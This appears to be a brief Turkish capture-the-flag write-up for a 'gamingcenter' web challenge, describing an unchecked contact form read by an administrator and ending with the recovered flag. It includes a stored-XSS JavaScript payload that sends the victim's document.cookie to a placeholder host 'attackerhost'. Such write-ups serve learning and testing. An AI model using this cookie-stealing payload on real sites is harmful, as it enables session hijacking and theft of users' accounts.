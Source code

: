 ![gamingcenter-1](https://github.com/enesdemir41/CTFs/assets/49167863/3b18f727-dfe5-4a24-8f57-843b6594f7cb)

Contact Form alanı Mevcut

Herhangi Bir kontrol yapılmamakta ve gönderilen veriler bir yetkilinin önüne düşmekte. Xss ile cookie bilgisini alalım

        var xhr=new XMLHttpRequest(); 
        xhr.open("GET", "https://attackerhost/?"+document.cookie, true); 
        xhr.send();

Kontorl altımızda olan bir sunucuya istek yaptırıldığında flagi görebiliriz. GOP{hellog_baby_its_my_xss_flag}
